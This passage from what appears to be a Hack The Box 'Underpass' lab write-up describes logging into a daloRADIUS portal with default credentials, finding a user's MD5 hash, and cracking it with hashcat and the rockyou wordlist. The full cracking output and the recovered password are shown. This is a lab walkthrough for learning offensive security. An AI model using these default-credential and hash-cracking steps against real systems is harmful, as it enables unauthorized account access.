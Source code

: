     </div>
</div>
I search online for daloradius default creds and find `administrator:radius`.  These credentials work on the operators portal.
<div class="text-center">
    <div class="img-fluid">
        {% include figure.html path="/assets/img/underpass/5.png" class="img-fluid rounded z-depth-1" zoomable=true %}
    </div>
</div>
I click `Go to users list` and find a username `svcMosh` and what appears to be an md5 hash `412DD4759978ACFCC81DEAB01B382403`.
<div class="text-center">
    <div class="img-fluid">
        {% include figure.html path="/assets/img/underpass/6.png" class="img-fluid rounded z-depth-1" zoomable=true %}
    </div>
</div>
I use `hashcat` with MD5 mode to crack the hash.  The password is `underwaterfriends`.
```console
┌──(kali㉿kali)-[~/htb/underpass/writeup]
└─$ hashcat -m 0 hash.txt /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting

OpenCL API (OpenCL 3.0 PoCL 5.0+debian  Linux, None+Asserts, RELOC, SPIR, LLVM 16.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
==================================================================================================================================================
* Device #1: cpu-sandybridge-Intel(R) Core(TM) i7-8750H CPU @ 2.20GHz, 2830/5724 MB (1024 MB allocatable), 4MCU

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Early-Skip
* Not-Salted
* Not-Iterated
* Single-Hash
* Single-Salt
* Raw-Hash

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 1 MB

Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

412dd4759978acfcc81deab01b382403:underwaterfriends

```